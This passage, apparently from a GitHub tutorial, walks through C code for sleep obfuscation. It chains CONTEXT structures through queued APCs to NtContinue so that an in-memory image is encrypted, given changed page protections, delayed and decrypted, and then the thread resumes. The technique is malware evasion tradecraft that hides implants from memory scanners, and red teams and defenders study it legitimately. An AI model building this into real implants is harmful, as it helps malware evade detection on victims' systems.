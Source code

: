 ```c

/*
 * change memory to execute and read
 * VirtualProtect( ImageBase, ImageSize, PAGE_EXECUTE_READ, &oldProt );
 */
RopProtRx.Rip = Instance()->Win32.VirtualProtect;
RopProtRx.Rcx = ImageBase;
RopProtRx.Rdx = ImageSize;
RopProtRx.R8  = PAGE_EXECUTE_READ;
RopProtRx.R9  = &OldProt;

/*
 * exit thread
 * RtlExitUserThread( 0x00 );
 */
RopExit.Rip = Instance()->Win32.RtlExitUserThread;
RopExit.Rcx = 0x00;

```

6. Now, we enqueue the [APC](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) with the [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) structures and pass it as a parameter to [NtContinue](https://ntdoc.m417z.com/ntcontinue).

```c
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopSetEvt, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopProtRw, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopMemEnc, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopDelay , FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopMemDec, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopProtRx, FALSE, NULL );
Instance()->Win32.NtQueueApcThread( hSlpThread, Instance()->Win32.NtContinue, &RopExit  , FALSE, NULL );
```

7. Finally, we will resume the thread, trigger the synchronization event, and let it run while the current thread sleeps.

```c
Status = Instance()->Win32.NtAlertResumeThread( hSlpThread, NULL );
if ( Status != 0x00 ) {
    PrintErr( "NtAlertResumeThread", Status );
}

Instance()->Win32.printf( "[I] Trigger sleep obf chain\n\n" );

Status = Instance()->Win32.NtSignalAndWaitForSingleObject( EvtSync, hSlpThread, TRUE, NULL );
if ( Status != 0x00 ) {
    PrintErr( "NtSignalAndWaitForSingleObject", Status );
}
```
